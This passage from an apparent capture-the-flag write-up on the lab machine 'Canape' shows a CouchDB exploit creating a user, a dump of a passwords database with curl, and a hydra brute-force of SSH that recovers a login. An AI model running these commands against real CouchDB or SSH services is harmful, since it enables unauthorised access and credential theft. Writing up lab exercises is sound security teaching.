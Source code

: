 ```
www-data@canape:/tmp$ python2 exploit.py 127.0.0.1 -u s0ck37 -P s0ck37
[+] User to create: s0ck37
[+] Password: s0ck37
[+] Attacking host 127.0.0.1 on port 5984
[+] User s0ck37 with password s0ck37 successfully created.
```

Now that we have new credentials we can enumerate the `passwords` database:

```
www-data@canape:/tmp$ curl -X GET http://s0ck37:s0ck37@localhost:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Lets see what each id contains:

```
www-data@canape:/tmp$ curl -X GET http://s0ck37:s0ck37@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
```

So it looks like each id contains some credentials, I will copy all of them to a txt file and bruteforce the ssh with `hydra`.

```
history ~ $ cat passwords.txt
0B4jyA0xtytZi7esBNGp
r3lax0Nth3C0UCH
h02ddjdj2k2k2
STOP STORING YOUR PASSWORDS HERE -Admin
history ~ $ hydra -l homer -P passwords.txt ssh://10.10.10.70:65535
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-28 20:08:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking ssh://10.10.10.70:65535/
[65535][ssh] host: 10.10.10.70   login: homer   password: 0B4jyA0xtytZi7esBNGp
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-28 20:08:28
```

